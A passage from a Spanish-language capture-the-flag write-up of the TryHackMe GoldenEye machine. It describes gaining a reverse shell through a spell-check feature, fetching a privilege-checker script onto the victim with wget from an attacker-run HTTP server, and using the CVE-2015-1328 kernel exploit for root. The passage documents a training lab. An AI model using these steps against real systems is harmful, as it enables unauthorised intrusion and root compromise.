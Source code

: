 Luego nos basta con crear un post y probar su ortografia para que el servidor invoque el proceso y llame al comando de reverse shell. A notar que luego de realizar estos pasos encontre que es posible utilizar **metasploit** para simplificar esto asi que si estan resolviendo la maquina en paralelo quizas les simplifique. 

A esta altura deberiamos recibir nuestra conexion remota y tener acceso al shell con usuario www-data.

## Phase 5: Root
TryHackMe nos continua guiando, sugiere descargar el script [LinuxPrivChecker.py](https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123) , el cual fue muy util para determinar que habia en la computadora.
 
Para eso creamos un simple http server con python3 (`python3 -m SimpleHTTPServer 1337`) y lo descargamos con la maquina victima utilizando (`wget ip:8000/linuxprivchecker.py`). Lo ejecutamos y podemos ver la version del kernell 3.13.0-32-generic. Esta es vulnerable a **CVE-2015-1328**, y el mismo tryhackme nos brinda el enlace a su exploit: https://www.exploit-db.com/exploits/37292

Sin embargo, nos encontramos con un problema: la máquina víctima no tenía instalado gcc para ejecutar correctamente el exploit, solo cc (como se puede ver al ejecutar linuxprivchecker).

En este punto, me encontré completamente bloqueado ya que no podía entender cómo arreglar el exploit por mi cuenta. Finalmente, tuve que recurrir a una guía que mostraba lo simple que era hacerlo.

![Desktop View](/assets/Posts/GoldenEye/7.png){: width="972" height="589" }
_Exploit Fix_
